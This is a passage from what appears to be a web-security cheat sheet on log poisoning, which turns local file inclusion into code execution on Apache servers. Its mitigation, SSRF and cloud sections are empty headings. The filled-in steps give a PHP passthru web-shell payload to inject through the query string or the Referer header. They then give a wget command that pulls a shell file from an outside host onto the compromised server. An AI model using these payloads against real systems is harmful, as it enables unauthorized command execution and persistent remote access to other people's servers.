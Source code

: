 STEP #3: Send a malicious request to inject a payload into the logfile:

  * _PHP passthru() function_: Execute an external program and display raw output
  * Attack vectors:
     * URL query string: `example.com/?q=injectpaylod`
     * HTTP Headers: Referer header.
```
<?php passthru($_GET['cmd']); ?>
<?php passthru(['ls -l']); ?>
```

STEP #4: With command execution, use wget to upload your own files to the server:
```
/var/log/apache2/access.log&cmd=wget http://somedomain.com/shellfile.php
OR
<?php passthru(['w']); ?>
```

Writeups:
* https://roguecod3r.wordpress.com/2014/03/17/lfi-to-shell-exploiting-apache-access-log/
* http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref

**Mitigation**


## Server-Side Request Forgery
---

**Summary**  


**Exploitation**  


**Mitigation**  


## Amazon Web Services and Cloud
---  

**Summary**  

**Exploitation**  

**Mitigation**


